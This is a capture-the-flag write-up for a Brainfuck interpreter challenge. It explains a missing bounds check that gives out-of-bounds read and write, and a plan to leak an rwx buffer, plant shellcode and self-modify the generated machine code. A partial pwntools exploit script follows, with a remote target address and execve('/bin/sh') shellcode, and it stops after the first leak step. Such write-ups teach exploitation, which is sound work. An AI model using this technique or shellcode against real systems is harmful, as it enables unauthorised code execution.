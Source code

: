 The vulnerability is quite simple: it did not have the boundary check for the data pointer increment/decrement. For example, it we input 1000 `>` and a `,`, we can write a byte at `bf_data->dp + 1000`, thus we have an out-of-bound read/write vulnerability.

Here's the basic concept of how I exploit the service:
1. Leak the machine code buffer address ( an mmap address with `rwx` permission )
2. Place our shellcode on the mmap buffer
3. Self-modified the machine code in `bf_data->sc_buf` so it will jump to our shellcode buffer and execute our shellcode.  


First we use the OOB read to leak the machine code buffer address. After that, we use OOB write to overwrite `bf_data->dp`, making it point to our shellcode buffer, then use `>` and `,` to write our shellcode to `bf_data->dp`.  

Now because `bf_data->dp` is near to `bf_data->sc_buf`, so again we can use the OOB write to modify the content of `bf_data->sc_buf`, creating a **self-modified machine code** situation. I decided to modify the end of the machine code into:
```
mov rax, shellcode_buf_addr
call rax
```


```python exp_bf1.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "139.59.244.42"
PORT = 31337
ELF_PATH = "./bf1"

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object

def cmd(s):
    r.sendlineafter(">>", s)

def write(move, content):
    payload = ""
    if move < 0:
        payload = "<" * abs(move)
    else:
        payload = ">" * abs(move)

    payload += ",>"*len(content)
    
    cmd(payload)
    r.sendline(content)


sc = "\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x31\xf6\x6a\x3b\x58\x99\x0f\x05"

if __name__ == "__main__":

    r = remote(HOST, PORT)
    
    # leak mmap address 
    payload = "<"*0x28 # move to &bf_data->sc_buf
```